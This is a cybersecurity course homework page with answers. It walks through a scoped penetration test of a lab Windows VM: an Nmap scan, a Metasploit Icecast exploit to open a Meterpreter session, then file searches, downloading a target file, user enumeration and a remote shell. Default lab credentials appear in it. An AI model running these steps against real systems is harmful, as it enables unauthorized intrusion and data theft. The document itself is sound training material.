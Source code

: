 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer.
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`.

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.

#### Scope

- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.

- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.

- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.

- Since you've already been provided access to the network, OSINT won't be necessary.

#### Lab Environment

For this week's homework, please use the following VM setup:

- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document:

- [Report.docx](Resources/Report.docx)

### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: `nmap -sV 192.168.0.20`

      ![nmap scan](Images/nmap-sV-scan.png)


2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

   - Run the SearchSploit commands to show available Icecast exploits.

     > Answer:`searchsploit icecast`

     ![searchsploit results](Images/searchsploit-icecast.png)

3. Now that we know which exploits are available to us, let's start Metasploit:

   - Run the command that starts Metasploit:

     > Answer:`msfconsole`


4. Search for the Icecast module and load it for use.

   - Run the command to search for the Icecast module:

     > Answer:`search icecast`

  - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer:`use 0`

     ![msfconsole](Images/msfconsole-search-icecast.png)


5. Set the `RHOST` to the target machine.

   - Run the command that sets the `RHOST`:

     > Answer:`set RHOSTS 192.168.0.20`

     ![options](Images/msfconsole-exploit-icecast-Options.png)

6. Run the Icecast exploit.

   - Run the command that runs the Icecast exploit.

     > Answer:`exploit` or `run`

     ![run exploit](Images/msfconsole-exploit-icecast.png)

7. You should now have a Meterpreter session open.

   - Run the command that performs a search for the `secretfile.txt` on the target.

     > Answer:`search -f *secretfile*.*`

     ![secret-file-search](Images/meterpreter-secretfile-search.png)

  - Run the command to performs a search for the `recipe.txt` on the target.

      > Answer:`search -f *recipe*.*`

      ![recipe-file-search](Images/meterpreter-recipe-search.png)


  - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file.
    - > Answer:`download /Users/IEUser/Documents/Drinks.recipe.txt`

    - ![download-recipe-file](Images/meterpreter-recipe-file-download.png)


8. You can also use Meterpreter's local exploit suggester to find possible exploits.


   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.


#### Bonus


A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer:`run post/windows/gather/enum_logged_on_users`

  ![users](Images/meterpreter-post-loggedIn-Users.png)


B. Open a Meterpreter shell and gather system information for the target.

  > Answer:`shell`

C. Run the command that displays the target's computer system information:

   > Answer:`systeminfo`

   ![systeminfo](Images/systeminfo-01.png)



---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
